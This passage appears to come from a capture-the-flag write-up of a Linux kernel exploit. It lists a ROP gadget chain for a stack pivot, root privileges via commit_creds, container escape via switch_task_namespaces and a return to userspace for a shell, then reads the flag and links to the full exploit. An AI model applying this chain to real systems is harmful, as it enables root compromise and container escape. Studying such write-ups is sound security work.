 
The gadget constructions are as follows:
 1. Stack pivot: `movq %rbx, %rsi; movq %rbp, %rdi; call
    __x86_indirect_thunk_r13` -> `pushq %rsi; jmp 46(%rsi)` -> `popq %rsp; ret`
    -> `popq %rsp; ret`, where %rdi, %rbx, and %r13 _initially_ points to
    user-controllable data.
 2. Gain root privileges: `popq %rdi; ret` -> `prepare_kernel_cred` -> `popq
    %rdi; ret` -> `movq %rax, (%rdi); ret`, where %rdi _now_ points to the
    stack top; `popq %rdi; ret` -> `commit_creds`, effectively executing
    `commit_creds(prepare_kernel_cred(&init_task))`.
 3. Escape containers: `popq %rdi; ret` -> `find_task_by_vpid` -> `popq %rdi;
    ret` -> `movq %rax, (%rdi); ret`, where %rdi _now_ points to the stack top;
    `popq %rdi; ret` -> `popq %rsi; ret` -> `switch_task_namespaces`,
    effectively performing `switch_task_namespaces(find_task_by_vpid(1),
    &init_nsproxy)`.
 4. Unlock mm: `popq %rax; ret` -> `movq %rbp, %rdi; call
    __x86_indirect_thunk_rax`, where %rbp points to the original seq_file;
    `popq %rax; ret` -> `m_stop`, effectively executing `m_stop(seq_file, ..)`.
 5. Return to userspace: use `swapgs_restore_regs_and_return_to_usermode`, and
    call `execve()` to get the shell.

Finally, using `nsenter --mount=/proc/1/ns/mnt` to restore the mount namespace
and get the flag via `cat /flag/flag`.

### Source code

The full exploit source is available [here](/exp). For more details, refer to
its README file.
